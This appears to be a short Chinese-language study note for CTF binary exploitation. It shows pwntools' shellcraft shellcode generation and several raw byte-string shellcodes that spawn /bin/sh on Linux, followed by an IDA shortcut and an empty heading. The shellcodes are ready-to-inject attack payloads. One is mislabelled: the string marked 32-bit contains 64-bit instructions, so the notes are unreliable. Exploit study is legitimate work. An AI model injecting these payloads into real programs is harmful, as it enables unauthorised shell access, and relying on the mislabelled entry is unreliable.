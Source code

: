 ## ShellCode-asm&&shellcraft

shellcraft

内置了一系列的字节shellcode，并且能根据实际来进行匹配相应的shellcode

```python
from pwn import *    
[[pwntool生成shellcode]]
shellcode=asm(shellcraft.sh())
```







自己写的，较小的，



32位Linux的

```
shellcode_x86=b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```



64位Linux的24Byte的ShellCode：

```
shellcode_x64 ="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
```



64位Linux的23Byte的shellcode：

```
shellcode_x64 ="\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
```



`execve("/bin/sh")` ，21字节的shellcode：

```
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```



## ida跳转地址

反汇编窗口按下`G`





## flat
